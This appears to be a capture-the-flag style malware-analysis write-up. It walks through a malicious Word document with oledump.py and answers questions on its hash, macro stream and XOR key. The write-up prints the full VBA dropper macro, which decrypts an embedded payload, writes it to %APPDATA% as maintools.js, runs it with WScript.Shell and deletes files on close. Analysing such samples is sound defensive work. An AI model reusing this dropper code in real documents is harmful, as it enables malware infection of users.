

Q1: What is the sha256 hash of the doc file?
ff2c8cadaa0fd8da6138cce6fce37e001f53a5d9ceccd67945b15ae273f4d751

-------------------------------------------------------
Q2: Multiple streams contain macros in this document. Provide the number of lowest one.
```
 ./oledump.py 49b367ac261a722a7c2bbbc328c32545
```

```
8: M    7117 'Macros/VBA/Module1'
```
= > 8
---------------------------------------------------------
Q3: What is the decryption key of the obfuscated code?
```
./oledump.py -s 8 49b367ac261a722a7c2bbbc328c32545
```
=> hex 
```
./oledump.py -s 8 -v 49b367ac261a722a7c2bbbc328c32545
```

```
ence '\D'
  manual = '''
Attribute VB_Name = "Module1"
Public OBKHLrC3vEDjVL As String
Public B8qen2T433Ds1bW As String
Function Q7JOhn5pIl648L6V43V(EjqtNRKMRiVtiQbSblq67() As Byte, M5wI32R3VF2g5B21EK4d As Long) As Boolean
Dim THQNfU76nlSbtJ5nX8LY6 As Byte
THQNfU76nlSbtJ5nX8LY6 = 45
For i = 0 To M5wI32R3VF2g5B21EK4d - 1
EjqtNRKMRiVtiQbSblq67(i) = EjqtNRKMRiVtiQbSblq67(i) Xor THQNfU76nlSbtJ5nX8LY6
THQNfU76nlSbtJ5nX8LY6 = ((THQNfU76nlSbtJ5nX8LY6 Xor 99) Xor (i Mod 254))
Next i
Q7JOhn5pIl648L6V43V = True
End Function
Sub AutoClose()
On Error Resume Next
Kill OBKHLrC3vEDjVL
On Error Resume Next
Set R7Ks7ug4hRR2weOy7 = CreateObject("Scripting.FileSystemObject")
R7Ks7ug4hRR2weOy7.DeleteFile B8qen2T433Ds1bW & "\*.*", True
Set R7Ks7ug4hRR2weOy7 = Nothing
End Sub
Sub AutoOpen()
On Error GoTo MnOWqnnpKXfRO
Dim NEnrKxf8l511
Dim N18Eoi6OG6T2rNoVl41W As Long
Dim M5wI32R3VF2g5B21EK4d As Long
N18Eoi6OG6T2rNoVl41W = FileLen(ActiveDocument.FullName)
NEnrKxf8l511 = FreeFile
Open (ActiveDocument.FullName) For Binary As #NEnrKxf8l511
Dim E2kvpmR17SI() As Byte
ReDim E2kvpmR17SI(N18Eoi6OG6T2rNoVl41W)
Get #NEnrKxf8l511, 1, E2kvpmR17SI
Dim KqG31PcgwTc2oL47hjd7Oi As String
KqG31PcgwTc2oL47hjd7Oi = StrConv(E2kvpmR17SI, vbUnicode)
Dim N34rtRBIU3yJO2cmMVu, I4j833DS5SFd34L3gwYQD
Dim VUy5oj112fLw51h6S
Set VUy5oj112fLw51h6S = CreateObject("vbscript.regexp")
VUy5oj112fLw51h6S.Pattern = "MxOH8pcrlepD3SRfF5ffVTy86Xe41L2qLnqTd5d5R7Iq87mWGES55fswgG84hIRdX74dlb1SiFOkR1Hh"
Set I4j833DS5SFd34L3gwYQD = VUy5oj112fLw51h6S.Execute(KqG31PcgwTc2oL47hjd7Oi)
Dim Y5t4Ul7o385qK4YDhr
If I4j833DS5SFd34L3gwYQD.Count = 0 Then
GoTo MnOWqnnpKXfRO
End If
For Each N34rtRBIU3yJO2cmMVu In I4j833DS5SFd34L3gwYQD
Y5t4Ul7o385qK4YDhr = N34rtRBIU3yJO2cmMVu.FirstIndex
Exit For
Next
Dim Wk4o3X7x1134j() As Byte
Dim KDXl18qY4rcT As Long
KDXl18qY4rcT = 16827
ReDim Wk4o3X7x1134j(KDXl18qY4rcT)
Get #NEnrKxf8l511, Y5t4Ul7o385qK4YDhr + 81, Wk4o3X7x1134j
If Not Q7JOhn5pIl648L6V43V(Wk4o3X7x1134j(), KDXl18qY4rcT + 1) Then
GoTo MnOWqnnpKXfRO
End If
B8qen2T433Ds1bW = Environ("appdata") & "\Microsoft\Windows"
Set R7Ks7ug4hRR2weOy7 = CreateObject("Scripting.FileSystemObject")
If Not R7Ks7ug4hRR2weOy7.FolderExists(B8qen2T433Ds1bW) Then
B8qen2T433Ds1bW = Environ("appdata")
End If
Set R7Ks7ug4hRR2weOy7 = Nothing
Dim K764B5Ph46Vh
K764B5Ph46Vh = FreeFile
OBKHLrC3vEDjVL = B8qen2T433Ds1bW & "\" & "maintools.js"
Open (OBKHLrC3vEDjVL) For Binary As #K764B5Ph46Vh
Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
Close #K764B5Ph46Vh
Erase Wk4o3X7x1134j
Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
R66BpJMgxXBo2h.Run """" + OBKHLrC3vEDjVL + """" + " EzZETcSXyKAdF_e5I2i1"
ActiveDocument.Save
Exit Sub
MnOWqnnpKXfRO:
Close #K764B5Ph46Vh
ActiveDocument.Save
End Sub
```
